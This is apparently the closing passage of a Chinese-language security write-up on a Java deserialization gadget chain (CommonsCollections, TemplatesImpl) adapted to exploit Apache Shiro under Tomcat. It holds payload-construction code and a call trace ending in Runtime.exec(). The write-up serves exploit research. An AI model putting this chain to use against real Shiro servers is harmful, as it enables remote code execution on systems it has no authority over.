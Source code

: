 ```java
array = (Object[]) f2.get(innimpl);
Object node = array[0];
if(node == null){
  node = array[1];
}

Field keyField = null;
try{
  keyField = node.getClass().getDeclaredField("key");
}catch(Exception e){
  keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
}
Reflections.setAccessible(keyField);
keyField.set(node, entry);
// 将最终的触发函数newTransformer装载到InvokerTransformer上
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

return map;
```

这里不对源码进行讲解了，都写在了注释里。

这里整理一下这条链的调用过程

```
java.util.HashSet.readObject()
-> java.util.HashMap.put()
-> java.util.HashMap.hash()
	-> org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
	-> org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
		-> org.apache.commons.collections.map.LazyMap.get()
		-> org.apache.commons.collections.functors.InvokerTransformer.transform()
			-> java.lang.reflect.Method.invoke()
      ... templates gadgets ...
      -> java.lang.Runtime.exec()
```

# 0x05 总结

在经过对`CommonsCollections`系列的利用链进行分析后，在shiro这个问题上，进行了实战，解决了tomcat下无法利用shiro原生的`commons-collections:3.2.1`这个问题。

最后，在最近的[shiro-721](https://issues.apache.org/jira/browse/SHIRO-721)利用上，这个利用链希望可以帮助到大家
